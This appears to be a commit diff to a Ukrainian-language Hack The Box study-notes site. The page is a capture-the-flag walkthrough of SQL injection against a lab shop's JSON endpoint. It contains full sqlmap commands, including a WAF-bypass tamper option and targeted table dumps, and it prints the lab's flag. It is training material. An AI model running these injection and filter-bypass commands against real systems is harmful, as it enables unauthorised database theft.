

Before and after one commit to vano-next/HTB-notes, an MkDocs documentation site: the page built from docs/CPTS/SQLMap-Essentials/Skills-Assessment-final-flag.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update Skills-Assessment-final-flag.md

````diff
--- a/docs/CPTS/SQLMap-Essentials/Skills-Assessment-final-flag.md
+++ b/docs/CPTS/SQLMap-Essentials/Skills-Assessment-final-flag.md
@@ -1,41 +1,181 @@
-# SQLMap Essentials — Skills Assessment (final_flag)
+# SQLMap Essentials — Skills Assessment: `final_flag`
 
-## Модуль
-[SQLMap Essentials — Skills Assessment](https://academy.hackthebox.com/module/58)
+**Модуль:** [SQLMap Essentials — Skills Assessment](https://academy.hackthebox.com/module/58)
+**Ціль:** Знайти вміст таблиці `final_flag` у базі `production`
+**Прапор:** `HTB{n07_50_h4rd_r16h7?!}`
 
-## Вектор
-POST `/action.php` з JSON body `{"id":1}` — вразливий параметр `id`
+***
 
-## Виявлення
-- Відкрити Shop → додати товар у кошик → перехопити POST в DevTools/Burp
-- Endpoint: `POST /action.php`, Content-Type: application/json
+## Середовище
 
-## Bypass
-WAF фільтрує символ `>` → sqlmap виводить WARNING → `--tamper=between`
+- **OS:** Kali Linux
+- **Інструменти:** Burp Suite, sqlmap
+- **Цільовий хост:** `http://TARGET_IP:TARGET_PORT/`
 
-## Команда
+***
+
+## Крок 1 — Встановлення Burp Suite
+
 ```bash
-sqlmap -u "http://TARGET/action.php" \
-  --data='{"id":1}' \
-  --method=POST \
-  --headers="Content-Type: application/json" \
-  --tamper=between \
-  --batch \
-  --dump -T final_flag \
-  --threads=5 \
-  --level=3 --risk=3
+sudo apt update && sudo apt install -y burpsuite
+burpsuite
 ```
 
-## Injection Type
-Boolean-based blind / Time-based blind (залежно від instance)
+> Burp Suite є у репозиторіях Kali за замовчуванням. Після запуску вибираємо **Temporary project → Use Burp defaults → Start Burp**.
 
-## Flag
-`HTB{n07_50_h4rd_r16h7?!}`
+***
 
-## Ключові параметри
-| Параметр | Призначення |
+## Крок 2 — Перехоплення запиту
+
+1. В Burp Suite: вкладка **Proxy → Intercept → Open browser** (вбудований Chromium).
+2. У браузері відкриваємо ціль:
+   ```
+   http://TARGET_IP:TARGET_PORT/
+   ```
+3. Переходимо до **Shop** → `http://TARGET_IP:TARGET_PORT/shop.html`
+4. Натискаємо **Add to cart** на будь-якому товарі.
+
+***
+
+## Крок 3 — Знаходимо POST-запит у HTTP history
+
+1. У Burp Suite: **Proxy → HTTP history**
+2. Шукаємо метод **POST** на `/action.php` — клікаємо на нього.
+3. У нижній панелі відображається вкладка **Request → Pretty** з таким вмістом:
+
+```http
+POST /action.php HTTP/1.1
+Host: TARGET_IP:TARGET_PORT
+Content-Length: 8
+Accept-Language: en-US,en;q=0.9
+User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
+Content-Type: application/json
+Accept: */*
+Origin: http://TARGET_IP:TARGET_PORT
+Referer: http://TARGET_IP:TARGET_PORT/shop.html
+Accept-Encoding: gzip, deflate, br
+Connection: keep-alive
+
+{"id":1}
+```
+
+> **Вразливий параметр:** `id` у JSON body — саме через нього проводиться SQL ін'єкція.
+
+***
+
+## Крок 4 — Збереження запиту у файл
+
+Відкриваємо термінал Kali:
+
+```bash
+nano final.txt
+```
+
+Вставляємо повний текст перехопленого запиту (з Burp), зберігаємо: `Ctrl+O → Enter → Ctrl+X`.
+
+***
+
+## Крок 5 — Перший запуск sqlmap (енумерація БД і таблиць)
+
+```bash
+sqlmap -r final.txt --tamper=between --dump --batch --no-cast --level=5 --risk=3
+```
+
+### Пояснення ключових прапорів
+
+| Прапор | Призначення |
 |---|---|
-| `--tamper=between` | Замінює `>/<` на `BETWEEN` для bypass WAF |
-| `--data='{"id":1}'` | POST body з JSON payload |
-| `--headers="Content-Type: application/json"` | Вказати тип контенту |
-| `--level=3 --risk=3` | Глибший scan + OR-payloads |
+| `-r final.txt` | Читає HTTP-запит з файлу (зберігає всі заголовки/body) |
+| `--tamper=between` | **WAF bypass:** замінює оператори `>` та `<` на `BETWEEN x AND x` — обходить фільтрацію порівняльних символів на бекенді |
+| `--dump` | Дампить дані з усіх знайдених таблиць |
+| `--batch` | Автоматично відповідає "yes" на всі інтерактивні питання |
+| `--no-cast` | Вимикає CAST-перетворення типів — усуває помилки на деяких СУБД |
+| `--level=5` | Максимальна глибина тестування (більше injection points і payloads) |
+| `--risk=3` | Дозволяє агресивніші payload-и, включно з OR-based |
+
+### Чому `--tamper=between`?
+
+Бекенд фільтрує символ `>`, що використовується у більшості boolean-based payloads (`WHERE id>0`, `IF(1>0,...)`). Tamper-скрипт `between` трансформує такі вирази:
+
+```sql
+-- До:
+AND 1>0
+-- Після:
+AND 1 BETWEEN 0 AND 1
+```
+
+Таким чином логіка зберігається, але заборонений символ зникає з payload-у.
+
+### Результат (фрагмент виводу)
+
+```
+[INFO] retrieved: final_flag
+```
+
+sqlmap знаходить таблицю `final_flag` у базі `production` — зупиняємо та уточнюємо команду.
+
+***
+
+## Крок 6 — Точковий дамп цільової таблиці
+
+```bash
+sqlmap -r final.txt \
+  --tamper=between \
+  --dump \
+  --batch \
+  --no-cast \
+  --level=5 \
+  --risk=3 \
+  -D production \
+  -T final_flag \
+  -C content \
+  --time-sec=3
+```
+
+### Додаткові прапори
+
+| Прапор | Призначення |
+|---|---|
+| `-D production` | Вказуємо цільову базу даних |
+| `-T final_flag` | Вказуємо цільову таблицю |
+| `-C content` | Дампимо лише колонку `content` |
+| `--time-sec=3` | Таймаут між time-based payload-ами — зменшує ризик false positives та розривів з'єднання |
+
+### Фінальний вивід
+
+```
+[WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
+HTB{n07_50_h4rd_r16h7?!}
+Database: production
+Table: final_flag
+[1 entry]
++--------------------------+
+| content                  |
++--------------------------+
+| HTB{n07_50_h4rd_r16h7?!} |
++--------------------------+
+```
+
+***
+
+## Injection Details
+
+| Параметр | Значення |
+|---|---|
+| Endpoint | `POST /action.php` |
+| Content-Type | `application/json` |
+| Вразливий параметр | `id` (JSON body) |
+| Injection Type | Time-based blind SQLi |
+| СУБД | MySQL (production) |
+| База | `production` |
+| Таблиця | `final_flag` |
+| Колонка | `content` |
+| Bypass | `--tamper=between` (фільтр символу `>`) |
+
+***
+
+## Прапор
+
+```
+HTB{n07_50_h4rd_r16h7?!}
+```
````
